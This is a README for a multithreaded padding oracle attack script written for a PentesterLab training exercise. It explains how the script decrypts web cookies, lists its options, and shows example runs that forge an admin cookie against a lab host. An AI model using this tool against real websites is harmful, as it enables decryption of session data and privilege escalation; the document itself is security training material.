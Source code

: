 # Fast-As-F*ck Padding Oracle Attack
This script was made for the [PentesterLabs Padding Oracle course](https://pentesterlab.com/exercises/padding_oracle) and served as my introduction into python, which allows you to decode some data via a web based padding oracle attack, and also allows you to modify the first block. This script also writes the decoded data so there is some persistence, for easier modification of the data. I have yet to test this anywhere else other than the Pentesterlabs course so the usage of this script may not be very high outside of its original purpose, but I have tried to add some variability to it. I only had about a months worth of experience with python when making this so the code is pretty sloppy, so if want to refactor anything or fix any errors you find, please go ahead.

By making two modifications to my original padding oracle script, I was able to greatly increase the spead of the decoding process. The first thing I did was skip all the cleartext
padding bytes. My script works by decoding from the end to the start, so by decoding from the end we can tell how many padding bytes it uses, and just skip all those padding bytes since we already know what the plaintext is, e.g. the first decoded byte is `\x05`, so we can skip the over the next 4 bytes and get to work on the 6th byte. My second improvement was adding multithreading which surprisingly wasn't as difficult as I thought it would be. This improves time by dividing the guess work of the 256 characters, equally amongst all threads, where all threads can establish their own sessions with the website and flood it with requests all at the same time. 

Overall these two modifications made the script about 5x faster, going from about 10 minutes to decode 16 bytes, to less than 2 minutes using 6 threads.

<br></br>

## Usage

###### Decoding data
To will need to run the file with `python3`, and supply some data. Usage should be as follows:
```bash
python3 faf-padding-oracle.py -d "EncodedData" -u "url" -e "ErrorMessage" -c "CookieName" 
``` 

Here are some additional commands you can run:
```bash
optional arguments:
  -h, --help            show this help message and exit
  -r, --resume          Resume an attack from the /tmp/pad.json file
  -m, --modify          Modify some of the cleartext once everything has been decoded
  -d DATA, --data DATA  Cipher data to decrypt
  -u URL, --url URL     Victim website URL
  -b BLOCKSIZE, --blocksize BLOCKSIZE
                        The amount of bytes in each block (Default is 8)
  -e ERROR, --error ERROR
                        The error message that is displayed when there is incorrect padding (case sensitive)
  -c COOKIENAME, --cookiename COOKIENAME
                        The name of the cookie to submit with the data (Just the name)
  --encoding ENCODING   The encoding used by the victims site: [0] Base64 (default) [1] URL encoded
  -t THREADS, --threads THREADS
                        Number of threads to run during the attack (More threads == faster)
```

And here is an example of its usage:
```bash
python3 faf-padding-oracle.py -d "u7bvLewln6M9TnM411NAQqOlqvvLRQGd" -u "http://ptl-a3d6d67e-6bb65621.libcurl.so/" -e "Invalid padding" -c auth --encoding 0  -t 6
```

###### Modifying data
This script only allows you to modify the first block of plaintext data, as changing any other block would result in a different intermediary state to the one we have deciphered, and would require more web requests and a lot more complex code.

To modify the first block, all you need to do is run the script with the -m flag like so:
```bash
python3 faf-padding-oracle.py -m
```
Then you will be prompted to change the first block which you do by entering the exact amount of characters as the block size:
```bash
python3 faf-padding-oracle.py -m
[*] You can change 8 characters, in the first block.
[*] Current first block: user=ddm Please enter your changes: user=adm
[*] Your new string is: user=admin
[*] Here is your cookie: u7bvLewgn6M9TnM411NAQqOlqvvLRQGd
```